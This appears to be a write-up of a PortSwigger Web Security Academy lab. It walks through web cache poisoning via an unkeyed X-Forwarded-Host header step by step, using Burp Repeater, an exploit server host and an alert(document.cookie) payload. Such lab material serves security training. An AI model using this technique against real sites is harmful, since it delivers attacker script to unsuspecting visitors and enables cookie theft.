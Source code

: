 # Web cache poisoning with an unkeyed header

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header) is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page.

## Reproduction and proof of concept

1. With Burp running, load the website's home page
2. In Burp, go to **Proxy" -> "HTTP history** and study the requests and responses generated. Find the `GET` request for the home page and send it to Burp Repeater.
3. Add a cache-buster query parameter, such as `?cb=1234`.
4. Add the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`, and send the request.
5. Observe that the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at ``/resources/js/tracking.js``.

![Web cache poisoning](../../_static/images/cache1.png)

6. Replay the request and observe that the response contains the header ``X-Cache: hit``. This tells us that the response came from the cache.
7. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/js/tracking.js
```

8. In the body, enter the payload `alert(document.cookie)` and store the exploit.
9. Open the GET request for the home page in Burp Repeater and remove the cache buster.
10. Add the following header, remembering to enter your own exploit server ID:

```text
X-Forwarded-Host: your-exploit-server-id.web-security-academy.net
```

11. Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers.

![Web cache poisoning](../../_static/images/cache2.png)

12. To simulate the victim, load the poisoned URL in your browser and make sure that the `alert()` is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.
13. If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. 
